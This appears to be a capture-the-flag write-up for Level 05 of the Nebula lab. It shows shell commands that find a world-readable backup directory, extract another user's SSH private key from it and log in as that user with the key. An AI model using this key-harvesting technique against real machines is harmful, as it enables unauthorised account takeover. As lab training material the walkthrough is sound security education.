 ## Level 05

Level05's description :
> Check the flag05 home directory. You are looking for weak directory permissions.

``` bash
level05@nebula:~$ cd /home/flag05
level05@nebula:/home/flag05$ ls -la
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
level05@nebula:/home/flag05$ cd .backup
level05@nebula:/home/flag05/.backup$ ls -la
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```

The ```.backup/``` folder is both world-readable and world-executable.

Copy the archive and extract the files in it.

``` bash
level05@nebula:~$ cp /home/flag05/.backup/backup-19072011.tgz .
level05@nebula:~$ ls
backup-19072011.tgz
level05@nebula:~$ tar xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ ls -la
total 4
drwxr-x--- 1 level05 level05  140 2020-01-28 11:35 .
drwxr-xr-x 1 root    root     160 2012-08-27 07:18 ..
-rw-rw-r-- 1 level05 level05 1826 2020-01-28 11:35 backup-19072011.tgz
drwxr-xr-x 2 level05 level05  100 2011-07-19 02:37 .ssh
level05@nebula:~/.ssh$ ls -l
total 12
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 authorized_keys
-rw------- 1 level05 level05 1675 2011-07-19 02:37 id_rsa
-rw-r--r-- 1 level05 level05  394 2011-07-19 02:37 id_rsa.pub
```

The contents of ```id_rsa.pub``` and ```authorized_keys``` are the same. So we should be able to ssh into flag05 user.

``` bash
level05@nebula:~$ ssh -i ~/.ssh/id_rsa flag05@localhost

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## Level 06
